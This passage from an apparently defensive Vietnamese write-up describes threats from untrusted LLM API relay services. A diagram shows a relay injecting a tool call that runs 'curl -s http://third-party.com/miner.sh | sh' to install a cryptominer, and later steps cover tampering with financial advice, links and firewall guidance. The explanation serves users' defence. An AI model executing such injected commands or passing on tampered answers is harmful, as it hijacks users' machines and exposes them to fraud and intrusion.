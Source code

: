 ## Các vector rủi ro cao cấp hơn

Ngoài việc lấy thông tin trực tiếp và đánh cắp dữ liệu, dịch vụ trung chuyển không đáng tin cậy còn có thể tận dụng vị trí trung gian để phát động các hành động cao cấp, tinh vi hơn.

### Phương thức 3: Đánh cắp tài nguyên (Resource Hijacking)

Mục tiêu của người vận hành không nhất thiết là dữ liệu người dùng, mà có thể là tài nguyên tính toán của họ. Đây là rủi ro ký sinh lâu dài.

1. **Chèn lệnh đào tiền ảo**: Khi người dùng gửi một yêu cầu thông thường, nhà trung chuyển chèn một lệnh `execute_shell` vào phản hồi trả về.
2. **Thực thi nền**: Lệnh này sẽ tải một chương trình đào tiền kỹ thuật số im lặng từ máy chủ kẻ tấn công, và chạy ngầm bằng `nohup` hoặc công nghệ tương tự.
3. **Tồn tại lâu dài**: Người dùng có thể chỉ cảm thấy máy tính chậm hơn hoặc tiếng quạt lớn hơn, khó phát hiện tiến trình nền. Người vận hành có thể liên tục lợi dụng tài nguyên CPU/GPU của người dùng để kiếm lợi.

```mermaid
sequenceDiagram
    participant User as Người dùng
    participant Client as Máy khách
    participant MitMRouters as Dịch vụ trung chuyển không đáng tin cậy (MITM)
    participant LLM as Dịch vụ mô hình lớn
    participant ThirdParty as Máy chủ kẻ tấn công

    User->>Client: Nhập bất kỳ lệnh nào
    Client->>MitMRouters: Gửi yêu cầu API
    MitMRouters->>LLM: Chuyển tiếp yêu cầu
    LLM-->>MitMRouters: Trả về phản hồi bình thường
    
    MitMRouters->>MitMRouters: Chèn lệnh tiêu hao tài nguyên
    MitMRouters->>Client: Trả về phản hồi bị sửa đổi
    Client->>Client: Thực thi Tool Use ngoài dự kiến: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Liên tục tiêu hao tài nguyên cho kẻ tấn công
```

### Phương thức 4: Kỹ thuật xã hội và sửa đổi nội dung (Social Engineering & Content Tampering)

Đây là một trong những rủi ro cần cảnh giác nhất, vì nó không dựa vào việc thực thi mã, mà trực tiếp thao túng nội dung văn bản trả về từ mô hình, tận dụng niềm tin của người dùng vào AI.

1. **Ngăn chặn và phân tích nội dung**: Dịch vụ trung chuyển chặn yêu cầu người dùng và phản hồi mô hình, phân tích ngữ nghĩa nội dung.
2. **Sửa đổi văn bản**: Nếu phát hiện kịch bản cụ thể, thực hiện sửa đổi văn bản có mục tiêu.
    * **Lời khuyên tài chính**: Người dùng hỏi về lời khuyên đầu tư, dịch vụ trung chuyển thêm phân tích "ủng hộ" một mục đầu tư rủi ro vào câu trả lời mô hình.
    * **Thay thế liên kết**: Người dùng yêu cầu cung cấp liên kết tải phần mềm chính thức, dịch vụ trung chuyển thay URL bằng liên kết trang web giả mạo.
    * **Yếu hóa lời khuyên bảo mật**: Người dùng tham vấn cách cấu hình tường lửa, dịch vụ trung chuyển sửa đổi lời khuyên mô hình, cố ý để lại cấu hình cổng không an toàn, chuẩn bị cho hành động tiếp theo.
3. **Người dùng chấp nhận**: Người dùng vì tin tưởng tính thẩm quyền và khách quan của AI, chấp nhận lời khuyên đã bị sửa đổi, có thể dẫn đến mất tiền, tài khoản bị đánh cắp hoặc hệ thống bị xâm nhập.
